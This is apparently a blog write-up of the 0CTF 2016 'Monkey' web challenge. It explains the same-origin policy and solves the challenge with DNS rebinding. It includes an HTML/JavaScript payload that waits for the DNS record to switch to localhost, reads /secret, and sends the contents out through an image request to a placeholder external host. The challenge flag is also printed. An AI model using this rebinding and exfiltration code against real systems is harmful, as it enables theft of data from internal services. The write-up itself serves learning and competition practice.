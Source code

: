 ```yaml
---
layout: post
title: "CTF WriteUp: 0CTF/Monkey"
category: CTF
comments: true
---
```


CTF WriteUp: 0CTF 2016 / Monkey / web / 4 points

We are presented with a simple page that allows us to submit a URL which some monkey will browse for two minutes. In addition, the page says that we can find the flag at `127.0.0.1:8080/secret`. The challenge page also asks what the same-origin policy is. Let's start by answering that question.

 <!-- more -->

## Intro

The [same-origin policy](https://en.wikipedia.org/wiki/Same-origin_policy) regulates that scripts shall only be allowed to access or request data from the origin from which they were loaded. An origin is defined by the URI scheme, the hostname and port.

As such, if we load our page from `http://foo.dollberg.xyz:8080` we are not allowed to do an XHR request to `http://127.0.0.1:8080` because the hostname is different.

The task of the challenge is now to circumvent this policy. While there exist several possibilities to circumvent the same-origin policy, such as explicitly allowing it using [CORS](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing), most of them require active help from the target domain.

My initial idea was to load the page via an image and then extract the data via html canvas elements. Second, was to load the flag page in an iframe and try to access it via some hacks of the `document.domain` property. However, both of those failed.

At that point, two things came to my mind. First, I got suspicious of the hint which mentioned that the monkey will surf for two minutes on the page. Second, I remembered attacks on smart home devices in local home networks that used DNS to circumvent the same-origin policy. At this point, I was totally sure that this must be the way to solve it.

Specifically, the attack works like this. The victim browses a page that you control (e.g.: `foo.dollberg.xyz`, the page which we submit). This page contains some javascript that accesses the endpoint of the flag (`/secret`) after a certain amount time (110 seconds). If the DNS entry of `foo.dollberg.xyz` has a very short TTL (60 seconds), the delayed request has to do an additional DNS request. However, by changing the DNS record in the meantime, the domain will resolve to the victim page (`127.0.0.1`).

There is only one last hurdle before we can make this happen. I use Cloudflare as a DNS provider for this page/domain. Unfortunately, Cloudflare only supports TTLs of two minutes. As a consequence, we first have to submit a different dummy link and wait some time so that the DNS record gets cached. The final procedure looks like this.

## Let's Pwn

We create a DNS record for `foo.dollberg.xyz` with the IP of our server (e.g.: `1.2.3.4`):

![My helpful screenshot](/resources/0ops16_monkey_realip.png)


After that, we submit the dummy URL `http://foo.dollberg.xyz:8080/dummy`. This causes the DNS query and the caching of the real IP. Then, we change the DNS record to point to localhost.

![My helpful screenshot](/resources/0ops16_monkey_localhost.png)

Now, we wait for a small amount of time, e.g.: 30 seconds. Then we submit a second link that contains our webpage `http://foo.dollberg.xyz:8080/pwn.html`:

    <html>
    <head>
    <script src="jquery.min.js"></script> <!-- can't access maxcdn in China -->
    <script type="text/javascript">

    function pwn() {
        $.get('/secret', function(data) {
            var image = new Image();
            image.src='http://someotherdomainorip:8080?data='+data;
        });
    }

    function foo() {
        setTimeout(pwn, 110 * 1000);
    }

    </script>
    </head>
    <body onload="foo()">
    </body>
    </html>

As the DNS record for `foo.dollberg.xyz` is still cached it is loaded from the correct server and the page is being browsed for another 120 seconds. After 110 seconds the timeout fires. As the TTL has expired an additional DNS request is being made which resolves to `127.0.0.1`. As a result, the request successfully accesses the `/secret` page of `127.0.0.1:8080`. Finally, we use an image tag to send the flag/data to another IP/domain of ours:

    0ctf{monkey_likes_banananananananaaaa}

For a change, this was a really cool web challenge and not the usual PHP crap. In the meantime, I have learned from other write-ups that the attack is generally known as [DNS rebinding](https://en.wikipedia.org/wiki/DNS_rebinding).
